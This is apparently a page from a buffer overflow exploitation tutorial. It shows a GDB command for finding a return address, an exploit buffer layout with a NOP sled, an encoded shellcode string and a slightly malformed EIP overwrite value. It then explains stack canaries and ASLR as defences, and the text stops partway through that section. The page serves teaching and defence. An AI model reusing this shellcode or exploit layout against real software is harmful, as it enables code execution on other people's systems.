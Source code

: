 # Identification of the Return Address

---

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.
#### GDB NOPS

  GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400
```

```
Buffer  = "\\x55" \* (1040 - 100 - 95 - 4) = 841
NOPs = "\\x90" \* 100
shellcode = "\xdb\xca\xd9\x74\x24\xf4\xbb\x82\xfc\x62\x5f\x5f\x29\xc9\xb1\x12\x31\x5f\x17\x03\x5f\x17\x83\x45\xf8\x80\xaa\x78\xda\xb2\xb6\x29\x9f\x6f\x53\xcf\x96\x71\x13\xa9\x65\xf1\xc7\x6c\xc6\xcd\x2a\x0e\x6f\x4b\x4c\x66\x7a\xa1\xa1\x75\x12\xb7\xbd\x62\xdb\x3e\x5c\x24\x7d\x11\xce\x17\x31\x92\x79\x76\xf8\x15\x2b\x10\x6d\x39\xbf\x88\x19\x6a\x10\x2a\xb3\xfd\x8d\xf8\x10\x77\xb0\x4c\x9d\x4a\xb3"
EIP = "\xff\xff\d7\x38"
```
# Prevention Techniques and Mechanisms

---

The best protection against buffer overflows is security-conscious programming. Software developers should inform themselves about the relevant pitfalls and strive for deliberately secure programming. Besides, there are security mechanisms that support developers and prevent users from exploiting such vulnerabilities.

These include security mechanisms:

- `Canaries`
- `Address Space Layout Randomization` (`ASLR`)
- `Data Execution Prevention` (`DEP`)

---

## Canaries

The `canaries` are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

---

## Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (`ASLR`) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

---